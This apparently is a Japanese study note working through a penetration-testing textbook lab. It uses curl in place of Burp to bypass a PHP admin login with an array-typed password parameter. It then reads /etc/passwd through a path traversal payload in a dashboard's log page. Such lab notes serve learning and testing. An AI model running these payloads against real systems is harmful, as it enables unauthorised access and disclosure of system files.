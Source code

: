 ### 14. ソースの認証部分をみる(p359)

```sh
parrot01$ curl -v $URL/admin/

> username
> password

parrot01$ cat index.php.back | grep "$_POST"
```

### 15. Burp を使ってみる(p359)

教科書では Burp をもちいて POST ボディの書き換えを行っているが，同等のことを curl を用いておこなってみる

```sh
parrot01$ curl   -c cookie.txt $URL/admin/login.php?login=1 -X POST -d "username=admin&password[]=test"
```

### 16. 状況に応じて Burp の intercept 機能を切り替える(p363)

Burp ではページ遷移で intercept が走り，前へ進むために Forward を Ckick しなければならないが，この Intercept 機能を無効にすることができる

| ページ名 | URL                             |
| -------- | ------------------------------- |
| Home     | /admin/dashboard.php            |
| Users    | /admin/dashboard.php?page=users |
| Date     | /admin/dashboard.php?page=date  |
| Logs     | /admin/dashboard.php?page=log   |
| Ping     | /admin/dashboard.php?page=ping  |

### 17.ファイルにアクセスする Log ページを表示する(p364)

```sh
parrot01$ curl -v -b cookie.txt $URL/admin/dashboard.php
parrot01$ curl -v -b cookie.txt $URL/admin/dashboard.php?page=log

parrot01$  curl -v -b cookie.txt $URL/admin/dashboard.php?page=log -X POST -d "file=log_01.txt"

parrot01$  curl -v -b cookie.txt $URL/admin/dashboard.php?page=log -X POST -d "file=../../../../../etc/passwd"
```

### 18. 情報収集を継続する(p367)

プログラムを組んで情報を収集しても良いが，今回は変数にセットして実行してみる,`C-p`や`C-n`などを使うと過去のヒストリに移動できる。`M-b`で末尾から移動して`C-k`で削除して変更すると良いだろう

[Keybind](../docs/commands.md)
